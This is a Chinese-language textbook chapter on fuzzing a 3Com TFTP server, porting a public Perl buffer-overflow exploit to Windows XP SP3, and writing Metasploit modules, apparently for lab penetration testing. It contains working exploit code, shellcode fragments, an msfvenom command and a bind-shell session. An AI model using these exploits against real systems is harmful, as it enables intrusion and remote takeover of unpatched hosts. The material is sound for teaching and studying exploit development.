




## 第十九章. Fuzzing、移植利用和 Metasploit 模块

在本章中，我们将回顾一些更基础的利用开发技术。我们将研究如何使用一种叫做*fuzzing*的技术，找出易受攻击程序中的潜在漏洞。我们还将讨论如何处理公开的利用代码并安全地将其移植以满足我们的需求，以及构建我们自己的 Metasploit 模块的基础知识。最后，我们将讨论一些可能已被目标防御的漏洞缓解技术。

## Fuzzing 程序

在第十七章中，我们利用了 War-FTP 版本 1.65 的用户名字段缓冲区溢出，使用了一个 1,100 字节的利用字符串。自然的问题是，我们怎么知道在用户名字段中填入 1,100 个*A*会导致程序崩溃，更重要的是，安全研究人员是如何首次发现这个漏洞的？在某些情况下，程序的源代码是公开的，因此寻找漏洞的研究人员只需要熟练掌握安全编码实践。在其他情况下，我们可以使用一种流行的方法叫做*fuzzing*，通过向程序发送各种输入，期望能发生一些奇怪的事情。

### 通过代码审查发现漏洞

在第十六章中，我们使用了一个简短的 Linux 程序来说明缓冲区溢出漏洞。当审计该程序的源代码时（如示例 19-1 所示），我们看到了`strcpy`函数 ❶。正如该章节中所讨论的，这个函数没有进行边界检查，可能会带来安全风险。

示例 19-1. 漏洞 C 代码

```
#include <string.h>
#include <stdio.h>

void overflowed() {
        printf("%s\n", "Execution Hijacked");
}

void function(char *str){
        char buffer[5];
        strcpy(buffer, str); ❶
}
void main(int argc, char *argv[])
{
        function(argv[1]); ❷
        printf("%s\n", "Executed normally");
}
```

阅读这段源代码时，我们看到用户输入（第一个程序参数）被传递给`function` ❷。然后，用户输入被通过`strpy` ❶复制到一个五字符的字符串`buffer`中。正如我们在第十六章中看到的那样，我们可以利用这种行为来创建基于栈的缓冲区溢出。

### Fuzzing 一个简单的 FTP 服务器

当我们无法访问程序的源代码时，我们必须使用其他方法来寻找可能被利用的安全问题。我们可以通过 fuzzing 向程序发送各种输入，这些输入是开发者从未打算让代码处理的。如果我们能找到能够以可控方式操作内存的输入，我们可能就能利用这个程序。

在第十七章中，在利用 War-FTP 1.65 时，我们首先通过在用户名字段发送 1100 个*A*字符让程序崩溃。一旦我们确定 EIP 包含四个*A*字符，并且从 ESP 寄存器中有一长串的*A*字符，我们就认为这个问题是可以利用的，并继续编写有效的基于栈的缓冲区溢出利用程序。在以下示例中，我们提前一步，使用模糊测试来确定我们需要发送多少个*A*字符才能让程序崩溃。

我们可以使用模糊测试技术来触发崩溃，这可以帮助我们构建利用程序。让我们看一个模糊测试 Trivial FTP（TFTP）服务器的示例，以找到一个可利用的漏洞。我们将使用 3Com TFTP 服务器 2.0.1 版本，它是在后期利用阶段从我们的 Windows XP 系统中发现的。

TFTP 默认运行在 UDP 端口 69 上。由于它是无连接的，我们需要了解 TFTP 通信的语法，以便发送 TFTP 软件会尝试处理的 UDP 数据包。根据 TFTP 的《请求评论》（RFC）页面，一个正确的 TFTP 数据包格式如示例 19-2 所示。为了让 TFTP 响应我们，我们需要遵循这个规范。

示例 19-2. TFTP 数据包格式

```
  2 bytes    string    1 byte    string    1 byte
------------------------------------------------
| Opcode |  Filename  |   0  |    Mode    |   0  |
------------------------------------------------
```

在考虑基于栈的缓冲区溢出攻击时，要查找用户可以控制输入的大小和内容的地方。如果我们可以发送符合 TFTP 规范的输入，但其中包含代码未设计处理的输入，那么我们可能能够触发基于栈的缓冲区溢出漏洞。在这个 TFTP 服务器的情况下，第一个字段，操作码（Opcode），总是两个字节长，并且包含以下字符串之一：

| 操作码（Opcode） | 操作（Operation） |
| --- | --- |
| 01 | 读取请求（RRQ） |
| 02 | 写请求（WRQ） |
| 03 | 数据（DATA） |
| 04 | 确认（ACK） |
| 05 | 错误（ERROR） |

然而，我们可以控制文件名字段。在真实的 TFTP 请求中，这就是我们告诉服务器我们想要读取、写入等的文件名的地方。文件名的长度是可变的，字符串的内容由用户控制，所以这可能是查找基于栈的缓冲区溢出漏洞的一个好地方。例如，也许代码的作者没有预料到会有人输入一个 1000 个字符长的文件名。毕竟，谁会想要输入一个 1000 字符长的文件名呢？

下一个字段是一个空字节，表示文件名的结束。我们无法控制这个字段，但我们可以控制第四个字段，模式（Mode），它是一个用户控制的可变字符串。根据 RFC，TFTP 支持的模式包括 netascii、octet 和 mail。这是一个理想的模糊测试点，因为开发者只期望该字段的字符数为八个或更少。TFTP 数据包以空字节结束，以表示模式的结束。

### 尝试崩溃

对于我们的模糊测试练习，我们将构造一系列合法的 TFTP 数据包，模式字段中包含虚假的且逐渐变长的输入。如果 TFTP 正确处理这些数据包，它应该会显示模式未识别并停止处理数据包。如果我们能触发基于栈的缓冲区溢出漏洞，结果可能会不同，从而导致程序崩溃。为此，我们将再次编写一个简单的 Python 程序。

与我们在 第十七章 和 第十八章 中的 War-FTP 利用示例中将缓冲区变量设置为包含 1,100 个 *A* 字符的字符串不同，我们将在 示例 19-3 中创建一个包含可变长度字符串的数组。

示例 19-3。一个简单的 TFTP 模糊测试程序

```
#!/usr/bin/python
import socket
bufferarray = ["A"*100] ❶
addition = 200
while len(bufferarray) <= 50: ❷
        bufferarray.append("A"*addition) ❸
        addition += 100
for value in bufferarray: ❹
        tftppacket = "\x00\x02" + "Georgia" + "\x00" + value + "\x00" ❺
        print "Fuzzing with length " + str(len(value))
        s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM) ❻
        s.sendto(tftppacket,('192.168.20.10',69))
        response = s.recvfrom(2048)
        print response
```

数组中的第一个元素将是一个包含 100 个 *A* 字符的字符串 ❶。但在向 TFTP 服务器发送任何数据包之前，让我们先创建其余的模糊字符串，并通过每次增加 100 个字符的方式将它们添加到数组中。使用 `while` 循环，我们将不断将逐渐变长的字符串追加到数组中，直到数组长度为 50 ❷。每次循环 `while`，一个新的元素将被添加到数组中 ❸。当我们创建好所有的模糊字符串并且 `while` 循环退出后，我们将进入一个 `for` 循环 ❹，这个循环会依次抓取数组中的每个元素，并将其作为有效的 TFTP 数据包中的 Mode 字段内容发送 ❺。

我们的数据包符合 TFTP RFC 的规范。我们使用了 `02` 模式（写请求）和文件名 *Georgia*。我们从数组中提取的 *A* 字符串被放入 Mode 字段中。希望我们不断增长的字符串能够导致崩溃。

设置我们的网络套接字与我们在上一章中攻击 FTP 时学到的稍有不同。因为 TFTP 是 UDP 协议，我们需要设置一个 UDP 套接字，而不是 TCP 套接字，所以语法稍有不同 ❻。将 Python 代码保存为 *tftpfuzzer*，并使其可执行。

在我们开始发送模糊测试数据包之前，切换回你的 Windows XP 机器，并使用 Immunity Debugger 附加到 *3CTftpSvc* 进程，如 图 19-1 所示。这样，如果我们引起崩溃，就能查看内存内容，验证是否已经控制了 EIP。（不要忘了点击 Immunity Debugger 窗口顶部的播放按钮，让程序继续运行。）

图 19-1. 附加 Immunity Debugger 到 3Com TFTP 服务器

现在，在 示例 19-4 中，我们运行了在 示例 19-3 中创建的 TFTP 模糊测试程序。

示例 19-4. 测试 3Com TFTP

```
root@kali:~# **./tftpfuzzer**
Fuzzing with length100
('\x00\x05\x00\x04Unknown or unsupported transfer mode : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00',❶ ('192.168.20.10', 4484))
Fuzzing with length 200
('\x00\x05\x00\x04Unknown or unsupported transfer mode : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00', ('192.168.20.10', 4485))
Fuzzing with length 300
('\x00\x05\x00\x04Unknown or unsupported transfer mode : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00', ('192.168.20.10', 4486))
Fuzzing with length 400
('\x00\x05\x00\x04Unknown or unsupported transfer mode : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00', ('192.168.20.10', 4487))
Fuzzing with length 500
('\x00\x05\x00\x04Unk\x00', ('192.168.20.10', 4488))
Fuzzing with length 600 ❷
```

当程序在 Mode 字段中依次运行多个 *A* 字符串时，TFTP 服务器会回复说它不知道该传输模式 ❶。当模糊测试程序尝试以 600 的长度进行模糊测试时，TFTP 服务器没有回应 ❷，这让我们认为，传输模式为 500 个 *A* 字符时，服务器崩溃了，因此在我们发送超过 600 个 *A* 字符时，它无法响应我们。

回顾在 Immunity Debugger 中的 3Com TFTP 服务器（图 19-2），我们看到它在 EIP 中崩溃，值为 `41414141`。还注意到在寄存器 ESP 中有一串较短的 *A* 字符串，在寄存器 ESI 中有一串更长的 *A* 字符串。似乎通过在 Mode 字段中发送一个 500 字符的字符串，我们可以控制执行以及某些内存寄存器的内容：这是编写基于堆栈的缓冲区溢出漏洞利用程序的理想情况。

图 19-2. 3Com TFTP 已崩溃。

使用上一章中学习到的技巧，在没有文本帮助的情况下，看看你能否为 3Com TFTP 2.0.1 开发出有效的漏洞利用程序。在这种情况下，保存的返回指针覆盖位于漏洞字符串的末尾，而 ESI 中的 shellcode 会出现在漏洞字符串的前面。（你可以在 编写 Metasploit 模块 中找到这个练习的完整 Python 漏洞利用程序。如果你遇到困难，可以参考那段代码。）

要在崩溃后重新启动 3Com TFTP，请浏览到 *C:\Windows*，打开 3CTftpSvcCtrl，并点击 **启动服务**，如 图 19-3 所示。然后在 Immunity Debugger 中重新附加到新进程。

图 19-3. 3Com TFTP 服务控制对话框

## 将公开漏洞移植以满足你的需求

有时你可能会在渗透测试中发现一个可利用的漏洞，但没有可用的 Metasploit 模块来利用它。虽然 Metasploit 团队和社区中的贡献者在保持 Metasploit 与当前威胁同步方面做得非常出色，但并非所有已知的互联网漏洞都已移植到这个框架中。

我们可以尝试通过下载目标软件并开发有效的漏洞利用来进行攻击，但这种方法并不总是可行的。相关软件可能需要支付昂贵的许可费用，导致你在渗透测试中亏损，或者可能无法从供应商或其他地方获得。此外，你的渗透测试可能有时间限制，因此，你最好去寻找环境中其他潜在的漏洞，而不是花费大量时间开发自定义漏洞利用。

开发自己的有效漏洞利用的一种方法是使用公开可用的漏洞利用作为基础，并将其移植到你的环境中。即使漏洞没有对应的 Metasploit 模块，你也可以在像 Exploit Database (*[`www.exploit-db.com/`](http://www.exploit-db.com/)*) 或 SecurityFocus (*[`www.securityfocus.com/`](http://www.securityfocus.com/)*）这样的网站上找到概念验证的漏洞利用代码。尽管公开的漏洞利用代码应该谨慎使用（并不是网上的所有东西都如其所述那样运行），但只要我们尽职调查，仍然可以安全地使用这些公开的漏洞利用代码。

我们从 Exploit Database 中找到的公开漏洞利用是针对 3Com TFTP 2.0.1 版本的长传输模式漏洞，链接在网上可以找到，位于 *[`www.exploit-db.com/exploits/3388/`](http://www.exploit-db.com/exploits/3388/)*，并显示在示例 19-5 中。

示例 19-5. 3Com TFTP 的公开漏洞利用

```
#!/usr/bin/perl –w ❶
#===============================================================
#                3Com TFTP Service <= 2.0.1 (Long Transporting Mode) Overflow Perl Exploit
#                               By Umesh Wanve (umesh_345@yahoo.com)
#===============================================================
# Credits : Liu Qixu is credited with the discovery of this vulnerability.
# Reference : http://www.securityfocus.com/bid/21301
# Date : 27-02-2007
# Tested on Windows 2000 SP4 Server English ❷
#           Windows 2000 SP4 Professional English
# You can replace shellcode with your favourite one :
# Buffer overflow exists in transporting mode name of TFTP server.
# So here you go.
# Buffer = "\x00\x02"      +  "filename"    +  "\x00" +  nop sled +  Shellcode + JUMP  + "\x00";
# This was written for educational purpose. Use it at your own risk. Author will not be
# responsible for any damage.
#===============================================================
use IO::Socket;
if(!($ARGV[1]))
{
 print "\n3COM Tftp long transport name exploit\n";
 print "\tCoded by Umesh wanve\n\n";
 print "Use: 3com_tftp.pl <host> <port>\n\n";
 exit;
}
$target = IO::Socket::INET->new(Proto=>'udp',
                                PeerAddr=>$ARGV[0],
                                PeerPort=>$ARGV[1])
                            or die "Cannot connect to $ARGV[0] on port $ARGV[1]";
# win32_bind -  EXITFUNC=seh LPORT=4444 Size=344 Encoder=PexFnstenvSub http://metasploit.com
my($shellcode)= ❸
"\x31\xc9\x83\xe9\xb0\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x48".
"\xc8\xb3\x54\x83\xeb\xfc\xe2\xf4\xb4\xa2\x58\x19\xa0\x31\x4c\xab".
"\xb7\xa8\x38\x38\x6c\xec\x38\x11\x74\x43\xcf\x51\x30\xc9\x5c\xdf".
--*snip*--
"\xc3\x9f\x4f\xd7\x8c\xac\x4c\x82\x1a\x37\x63\x3c\xb8\x42\xb7\x0b".
"\x1b\x37\x65\xab\x98\xc8\xb3\x54";
print "++ Building Malicious Packet .....\n";
$nop="\x90" x 129;
$jmp_2000 = "\x0e\x08\xe5\x77";❹# jmp esi user32.dll windows 2000 sp4 english
$exploit = "\x00\x02";❺                        #write request (header)
$exploit=$exploit."A";                          #file name
$exploit=$exploit."\x00";                       #Start of transporting name
$exploit=$exploit.$nop;❻                      #nop sled to land into shellcode
$exploit=$exploit.$shellcode;❼                 #our Hell code
$exploit=$exploit.$jmp_2000;❽                  #jump to shellcode
$exploit=$exploit."\x00";                       #end of TS mode name
print $target $exploit;                         #Attack on victim
print "++ Exploit packet sent ...\n";
print "++ Done.\n";
print "++ Telnet to 4444 on victim's machine ....\n";
sleep(2);
close($target);
exit;
#----------------------------------------------------------------------------------
# milw0rm.com [2007-02-28]
```

这个漏洞利用是用 Perl 编写的 ❶。要使用公开的漏洞利用，你需要具备一定的多种语言的基础阅读能力。此外，这个漏洞利用的目标是 Windows 2000 SP4 ❷，而我们的目标是 Windows XP SP3。我们需要进行一些修改才能将这个漏洞利用移植到我们的平台上。

这个漏洞利用中包含的 shellcode 声称是使用 Metasploit 生成的，并且会在端口 4444 上打开一个绑定 shell ❸。

### 注意

这并不是对该漏洞原作者的冒犯，但在使用公开漏洞利用时，始终要对你无法理解的部分保持警惕。此外，要意识到，所包含的 shellcode 可能不适用于你的环境。例如，它可能是一个反向 shell，指向一个静态 IP 地址和端口。因此，在运行任何公开漏洞利用之前，使用 Msfvenom 生成新的、可信的 shellcode 是一个好的做法。

通过阅读漏洞利用代码，我们看到作者创建了一个 TFTP 数据包，类似于我们在本章前面的模糊测试示例中创建的数据包 ❺。Mode 字段填充了一个 129 个字符的 NOP 滑梯 ❻，344 字节的 shellcode ❼，以及四字节的返回地址 ❽（在本例中是一个`JMP` `ESI`指令），用于将执行重定向到攻击者控制的 ESI 寄存器 ❹。

### 注意

*NOP sled* 是一系列不执行任何操作的指令（十六进制为 \x90），它们不会做任何事情并继续执行。它们通常用于填充 exploits。开发者可以将执行重定向到 NOP sled 中的某个位置，执行会沿着 NOP sled “滑动”，什么也不做，直到到达 shellcode。然而，我们已经了解到，我们可以更精确地使用 exploits，通常不需要 NOP sled。

变量 `$jmp_2000` ❹ 的命令告诉我们，exploits 使用了 Windows 2000 SP4 英文版中的 *USER32.dll* 中的 `JMP ESI` 指令。

### 查找返回地址

由于我们使用的是不同的平台，`JMP ESI` 指令的内存位置（`0x77E5080E`）可能会有所不同。*USER32.dll* 是 Windows 操作系统的一个组件。Windows XP 不使用后文所讨论的 ASLR，因此 *USER32.dll* 会加载到所有 Windows XP SP3 英文平台的相同内存位置。

在之前的 exploit 演练中，我们利用了静态 DLL 地址。我们无需运行 3Com TFTP 即可找到 Windows 组件中指令的内存位置。例如，如 图 19-4 所示，通过调试 War-FTP，我们可以在 *USER32.dll* 中查找 `JMP ESI` 指令。（如果我们没有程序的副本，最好坚持使用原 exploit 中提到的 DLL。我们不能确定该程序是否加载了 *MSVCRT.dll*，例如。）

当然，在我们的例子中，我们本地有 3Com TFTP，但如果我们无法访问该应用程序，我们可以使用 Mona 查找特定模块中的 `JMP` 指令。例如，我们可以使用命令 `!mona jmp -r esi -m user32` 查找 `JMP ESI`（或等效指令）的实例，如 图 19-4 所示。

图 19-4. 查找 *USER32.dll* 中的 `JMP ESI` 指令

我们在 Windows XP SP3 的 *USER32.dll* 中的内存地址 `7E45AE4E` 找到了 `JMP ESI` 指令。如果我们将 `jmp_2000` 变量更改为这个小端格式的值，这个 exploit 应该适用于我们的平台。

```
$**jmp_2000 = "\x4E\xAE\x45\x7E";**
```

### 替换 Shellcode

如前所述，我们还需要用 Msfvenom 生成的代码替换 shellcode。我们可以使用 bind shell 或任何适合 344 + 129 字节（包括 shellcode 和 NOP sled）的 Windows payload。我们需要避免的唯一坏字符是空字节。告诉 Msfvenom 以 Perl 格式输出 payload，以便我们可以轻松将其添加到我们的 exploit 中。

```
root@kali:~# **msfvenom -p windows/shell_bind_tcp -b '\x00' -s 473 -f perl**
```

### 编辑 Exploit

我们通过 Msfvenom 生成的 shellcode 为 368 字节，而公开漏洞中的原始 shellcode 为 344 字节。现在，根据示例 19-6 中的原始漏洞代码进行修改。我们删除了 NOP sled，并在 shellcode 后面填充了 105 字节的漏洞字符串，以确保我们的返回地址仍然能够劫持 EIP。

示例 19-6. 移植的漏洞

```
#!/usr/bin/perl -w
#===============================================================
#                3Com TFTP Service <= 2.0.1 (Long Transporting Mode) Overflow Perl Exploit
#                               By Umesh Wanve (umesh_345@yahoo.com)
#===============================================================
# Credits : Liu Qixu is credited with the discovery of this vulnerability.
# Reference : http://www.securityfocus.com/bid/21301
# Date : 27-02-2007
# Tested on Windows XP SP3
# You can replace shellcode with your favourite one :
# Buffer overflow exists in transporting mode name of TFTP server.
# So here you go.
# Buffer = "\x00\x02"      +  "filename"    +  "\x00" +  nop sled +  Shellcode + JUMP  + "\x00";
# This was written for educational purpose. Use it at your own risk. Author will not be responsible for any damage.
#===============================================================
use IO::Socket;
if(!($ARGV[1]))
{
 print "\n3COM Tftp long transport name exploit\n";
 print "\tCoded by Umesh wanve\n\n";
 print "Use: 3com_tftp.pl <host> <port>\n\n";
 exit;
}
$target = IO::Socket::INET->new(Proto=>'udp',
                                PeerAddr=>$ARGV[0],
                                PeerPort=>$ARGV[1])
                            or die "Cannot connect to $ARGV[0] on port $ARGV[1]";
my($shellcode) = ❶
"\xda\xc5\xd9\x74\x24\xf4\x5f\xb8\xd4\x9d\x5d\x7a\x29\xc9" .
--*snip*--
"\x27\x92\x07\x7e";
print "++ Building Malicious Packet .....\n";
$padding="A" x 105; ❷
$jmp_xp = "\x4E\xAE\x45\x7E";❸# jmp esi user32.dll windows xp sp3 english
$exploit = "\x00\x02";                        #write request (header)
$exploit=$exploit."A";                        #file name
$exploit=$exploit."\x00";                     #Start of transporting name
$exploit=$exploit.$shellcode;                 #shellcode
$exploit=$exploit.$padding;                   #padding
$exploit=$exploit.$jmp_xp;                    #jump to shellcode
$exploit=$exploit."\x00";                     #end of TS mode name
print $target $exploit;                       #Attack on victim
print "++ Exploit packet sent ...\n";
print "++ Done.\n";
print "++ Telnet to 4444 on victim's machine ....\n";
sleep(2);
close($target);
exit;
#----------------------------------------------------------------------------------------------
# milw0rm.com [2007-02-28]
```

我们移植的漏洞代码将类似于示例 19-6，其中 shellcode ❶、填充 ❷ 和返回地址 ❸ 已根据我们的需求进行了调整。

如果你一切操作正确，当你运行移植后的漏洞时，一个具有系统权限的绑定 Shell 将在 TCP 端口 4444 上打开，正如示例 19-7 中所示。

示例 19-7. 运行移植的漏洞

```
root@kali:~# **./exploitdbexploit.pl 192.168.20.10 69**
++ Building Malicious Packet .....
++ Exploit packet sent ...
++ Done.
++ Telnet to 4444 on victim's machine ....
root@kali:~# **nc 192.168.20.10 4444**
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## 编写 Metasploit 模块

在本书中，我们利用了许多 Metasploit 模块进行信息收集、漏洞利用、后渗透等操作。随着新漏洞的发现，Metasploit 模块也会为这些问题编写，通常由像你一样的安全社区成员来完成。此外，随着研究人员实现新的后渗透或信息收集技术，这些技术也通常会被移植到 Metasploit 模块中。在本节中，我们将介绍如何编写我们自己的 Metasploit 漏洞模块的基础知识。

### 注意

Metasploit 模块是用 Ruby 编写的。

编写 Metasploit 模块的最佳方式是从一个相似的现有模块或框架开始，并且像我们在前一节中所做的那样，将漏洞移植过来以满足我们的需求。让我们从一个现有的 Metasploit TFTP 漏洞模块开始，将本章前面作为练习留下的 3Com TFTP 基于堆栈的缓冲区溢出漏洞移植过来。当然，Metasploit 已经有了这个漏洞的模块，但如果直接使用它作为基础模块的话，太简单了。

要查看所有 Windows TFTP 服务器的漏洞，查看 Kali 中 */usr/share/metasploit-framework/modules/exploits/windows/tftp* 目录下的内容。

我们将从模块 *futuresoft_transfermode.rb* 开始。这个模块（如示例 19-8 所示）利用了类似的问题：另一个 TFTP 软件的传输模式字段中的缓冲区溢出漏洞。我们将对其进行调整，使其适用于我们的 3Com TFTP 漏洞模块。

示例 19-8. Metasploit 模块示例

```
root@kali:/usr/share/metasploit-framework/modules/exploits/windows/tftp# **cat**
**futuresoft_transfermode.rb**
##
# This module requires Metasploit: http//metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote ❶
  Rank = AverageRanking

  include Msf::Exploit::Remote::Udp ❷
  include Msf::Exploit::Remote::Seh

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'FutureSoft TFTP Server 2000 Transfer-Mode Overflow',
      'Description'    => %q{
          This module exploits a stack buffer overflow in the FutureSoft TFTP Server
        2000 product. By sending an overly long transfer-mode string, we were able
        to overwrite both the SEH and the saved EIP. A subsequent write-exception
        that will occur allows the transferring of execution to our shellcode
        via the overwritten SEH. This module has been tested against Windows
        2000 Professional and for some reason does not seem to work against
        Windows 2000 Server (could not trigger the overflow at all).
      },
      'Author'         => 'MC',
      'References'     =>
        [
          ['CVE', '2005-1812'],
          ['OSVDB', '16954'],
          ['BID', '13821'],
          ['URL', 'http://www.security.org.sg/vuln/tftp2000-1001.html'],

        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        },
      'Payload'        =>
        {
          'Space'    => 350, ❸
          'BadChars' => "\x00", ❹
          'StackAdjustment' => -3500, ❺
        },
      'Platform'       => 'win',
      'Targets'        => ❻
        [
          ['Windows 2000 Pro English ALL',   { 'Ret' => 0x75022ac4} ], # ws2help.dll
          ['Windows XP Pro SP0/SP1 English', { 'Ret' => 0x71aa32ad} ], # ws2help.dll
          ['Windows NT SP5/SP6a English',    { 'Ret' => 0x776a1799} ], # ws2help.dll
          ['Windows 2003 Server English',    { 'Ret' => 0x7ffc0638} ], # PEB return
        ],
      'Privileged'     => true,
      'DisclosureDate' => 'May 31 2005'))

    register_options(
      [
        Opt::RPORT(69) ❼
      ], self.class)

  end ❽

  def exploit
    connect_udp❾

    print_status("Trying target #{target.name}...")

    sploit  = "\x00\x01" + rand_text_english(14, payload_badchars) + "\x00"
    sploit += rand_text_english(167, payload_badchars)
    seh  = generate_seh_payload(target.ret)
    sploit[157, seh.length] = seh
    sploit += "\x00"

    udp_sock.put(sploit) ❿

    handler
    disconnect_udp
  end
end
```

在类定义 ❶ 中，以及包含语句 ❷ 中，模块的作者告诉 Metasploit 该模块将继承哪些 mixins 或库的构造。这是一个通过 UDP 实现的远程漏洞，使用了 SEH 覆盖攻击。

在 `Payload` 部分 ❸，我们告诉 Metasploit 在攻击字符串中可用来放置有效载荷的字节数。我们还列出了需要避免的不良字符 ❹。`StackAdjustment` 选项 ❺ 告诉 Metasploit 将 ESP 移动到有效载荷的开始处，为有效载荷在堆栈上腾出更多空间，以便它能正常工作而不被自己覆盖。

在 `Targets` 部分 ❻，作者列出了 Metasploit 可以攻击的所有目标及其相关的返回地址。（请注意，我们不需要以小端格式编写返回地址。我们稍后将在模块中处理这个问题。）除了 *Exploit::Remote::UDP* 混入模块的默认选项外，作者还将 `RPORT` 选项注册为 69 ❼，这是 TFTP 的默认端口。许多编程语言使用括号来标识函数或循环等代码块。Python 使用缩进，而 Ruby（此处使用的语言）则使用 `end` ❽ 来标识代码块的结束。

*Exploit::Remote::UDP* 混入模块为我们完成了设置 UDP 套接字的所有工作。我们需要做的就是调用函数`connect_udp` ❾。（你可以在 Kali 的 */usr/share/metasploit-framework/lib/msf/core/exploit/udp.rb* 文件中找到`connect_udp`及其他*Exploit::Remote::UDP* 方法的详细信息。）

然后，作者告诉 Metasploit 如何创建漏洞字符串。漏洞字符串构建完成后，作者使用`udp_sock.put`方法 ❿ 将其发送到易受攻击的服务器。

### 相似的漏洞字符串模块

示例模块使用了 SEH 漏洞，而我们的 3Com TFTP 漏洞则使用了保存的返回指针，因此我们来查看另一个 Metasploit TFTP 示例中的漏洞字符串，以帮助我们创建自己的漏洞。以下是 *exploit/windows/tftp/tftpd32_long_filename.rb* 模块中使用的漏洞字符串。

```
sploit = "\x00\x01"❶ + rand_text_english(120, payload_badchars)❷ + "." + rand_text_english(135, payload_badchars) + [target.ret].pack('V')❸ + payload.encoded❹ + "\x00"
```

回想一下，TFTP 数据包的前两个字节是操作码 ❶。在这里，数据包告诉 TFTP 我们想要读取一个文件。接下来是文件名，*rand_text_english(120, payload_badchars)*。正如模块名称所示，这个漏洞利用了一个长文件名，而不是将过多的数据写入传输模式字段。作者使用 Metasploit 的 `rand_text_english` 函数创建了一个 120 个字符的字符串，避免了通过模块中早先定义的 `BadChar` 变量中的不良字符 ❷。这个漏洞似乎需要一个句点（`.`），然后是一些随机文本，接着返回地址被添加到字符串中。Metasploit 从模块中早先定义的 `ret` 变量中提取返回地址。

